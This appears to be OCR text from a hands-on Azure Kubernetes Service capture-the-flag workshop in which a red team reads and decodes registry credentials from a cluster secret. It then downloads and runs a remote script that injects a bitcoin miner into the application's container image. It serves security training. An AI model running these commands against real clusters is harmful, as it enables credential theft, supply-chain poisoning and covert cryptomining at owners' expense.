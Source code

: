 Lets see if there are any credentials accessible.

In the hacked admin panel, run the following:

cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl
kubectl get secrets
Ooh. There's something called acr-secret. Let's dig in.

kubectl get secrets/acr-secret -o json
There's a .dockerconfigjson file in the secret that appears to be Base64 encoded

kubectl get secrets/acr-secret -o json | jq -r '.data.".dockerconfigjson"' | base64 -d - | jq
Now we're talking! It looks like they put the admin credentials for their registry in a secret. I bet we can use this to both PUSH and PULL new images to their registry.

We can use Buildah to create, pull and push container images. However, we will need escalated privledges.

Some of the other red-team members have found this neat trick from Twitter, which deploy a container that gives us full host access. Let's work with them to find a way to utilize this.

… TIME PASSES …

Good luck! They've come up with two scripts:

run-bitcoin-injector.sh - deploys a Kubernetes Job that uses the registry credentials we found, to create another pod that injects our bitcoin miner into the container
inject-image.sh - Uses Buildah to pull the current app image, inject the bitcoin miner into the image and re-publish the image under the same name
Let's go back to our admin panel and run the following:

This command may take 1-2 minutes to run. Do not refresh the browser page. Wait for the command to complete

curl -O -J https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_3/run-bitcoin-injector.sh; bash run-bitcoin-injector.sh
Everything has been installed. Let's kill our process and let the new image come up

kubectl delete pod $HOSTNAME
The page immediately died (which is understandable since we killed the pod). Let's reload the page and see if we were successful. Run the following command in the admin page

ps
Our moneymoneymoney process is there and running inside their container! Good luck finding that one!

Ethical Hacking with AKS: Hands-On Attack and Defense Strategies
1 Hr 23 Min Remaining 
Scenario 3 Attack (The calls are coming from inside the container!)
Red Team Update
It appears the blue team has again deleted our bitcoinero pods. It's time to get sneakier. Instead of trying to deploy new pods into their cluster, let's poke around to see if there's anything we can use.

Lets see if there are any credentials accessible.

In the hacked admin panel, run the following:
